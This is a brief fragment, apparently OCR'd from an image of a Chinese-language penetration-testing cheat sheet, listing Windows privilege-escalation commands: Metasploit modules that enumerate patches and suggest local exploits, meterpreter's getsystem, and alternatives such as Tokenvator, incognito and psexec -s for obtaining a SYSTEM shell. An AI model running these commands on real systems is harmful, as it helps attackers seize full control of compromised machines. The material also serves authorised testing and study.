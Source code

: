 	发现补丁
	>use post/windows/gather/enum_patches
	列举可用EXP
	>use post/multi/recon/local_exploit_suggester
  ##### getsystem
  	meterpreter> getsystem 
  ##### getsystem替代者
  	>Tokenvator.exe getsystem cmd.exe 
	>incognito.exe execute -c "NT AUTHORITY\SYSTEM" cmd.exe 
	>psexec -s -i cmd.exe 
	>python getsystem.py # from https://github.com/sailay1996/tokenx_privEsc